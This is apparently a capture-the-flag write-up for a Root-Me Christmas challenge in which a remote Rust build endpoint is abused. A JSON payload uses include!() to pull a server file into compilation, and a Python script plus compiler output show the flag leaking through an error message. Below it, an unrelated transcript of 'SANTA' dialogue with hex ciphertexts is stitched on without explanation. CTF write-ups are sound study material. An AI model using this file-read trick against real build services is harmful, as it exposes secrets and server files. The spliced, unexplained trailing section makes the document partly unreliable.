 When we do a POST request with JSON on this endpoint, the JSON is
parsed as pairs "filename / file content". Each file is created in a
temporary directory, the package is built with `cargo build --release`, and the generated binary is sent to the client.

### Unintended solution

First of all, I hoped to include the contents of the flag in the
compiled binary. 

A Rust package consists at least of a `src/main.rs` file as the main
source file. After some research, I learnt that a file can be included
in a Rust source file thanks to the `include!()` instruction.

The flag path is known thanks to the Dockerfile: 
```
volumes:
      - ./flag.txt:/flag/randomflaglolilolbigbisous.txt
```

Thus, my first payload was `{ 'src/main.rs' : 'include!("/flag/randomflaglolilolbigbisous.txt");' }`

And... it actually worked, as the flag was printed in an error message
from the compiler.

```python
import requests

data = { 'src/main.rs' : 'include!("/flag/randomflaglolilolbigbisous.txt");' }

r = requests.post("https://day4.challenges.xmas.root-me.org/remote-build", json=data, verify=False)

print(r.content.decode())
```

```$ python solve_unintended.py
/usr/lib/python3/dist-packages/urllib3/connectionpool.py:1100: InsecureRequestWarning: Unverified HTTPS request is being made to host 'day4.challenges.xmas.root-me.org'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
Build failed:    Compiling temp_build v0.1.0 (/tmp/.tmptqFN1c)
error: expected one of `!` or `::`, found `<eof>`
 --> /flag/randomflaglolilolbigbisous.txt:1:1
  |
1 | OffenSkillSaysHi2024RustAbuse
  | ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ expected one of `!` or `::`

error[E0601]: `main` function not found in crate `temp_build`
 --> src/main.rs:1:50
  |
1 | include!("/flag/randomflaglolilolbigbisous.txt");
  |                                                  ^ consider adding a `main` function to `src/main.rs`

For more information about this error, try `rustc --explain E0601`.
error: could not compile `temp_build` (bin "temp_build") due to 2 previous errors
```


[SANTA]: Hello player, welcome! Here is your gift for this christmas: d25403e95412f681c87af504174705231be5aa0a8ae8c7caea6dc25657ab1ca6ea58a73f39249dc7827e1d99363d3a84b593cf266f286281eb4e90f6da791aaa
[SANTA]: Oh, I forgot to tell you, you will only be able to unwrap it on the 25th, come back to me on that date to get the key!
[SANTA]: While I'm at it, do you wish to wrap a present for someone? (Y/N)
[SANTA]: Enter the message you wish to wrap:
[SANTA]: Here is your wrapped present: cd7c0adf1d7ce1b6ed41b220257f39561adb8337ad9db4af907590180efa29e1
[SANTA]: Merry Christmas!
[SANTA]: Hello player, welcome! Here is your gift for this christmas: 0ed3526241d4570c998d6d1e170c9a2b70c88e3995ac7284fd1319d2fa1063e28149b4914ae20cb0c835935c2fadc6fc16b78829215aac23706c915450c432e6
[SANTA]: Oh, I forgot to tell you, you will only be able to unwrap it on the 25th, come back to me on that date to get the key!
[SANTA]: While I'm at it, do you wish to wrap a present for someone? (Y/N)
[SANTA]: Enter the message you wish to wrap:
[SANTA]: Here is your wrapped present: 3dff484710fb6232afbe382f2934b41f43f6a811b29940bacb432cfbc42631c2ab7796a272d3399eee06b36d06959db50ad9e6474f34c24d1e02ff3a3eaa5c8853e26d86f052a8374fbe4aa6de30fb0d4c78a56b0f623289ae11930ba3e3a71c
[SANTA]: Merry Christmas!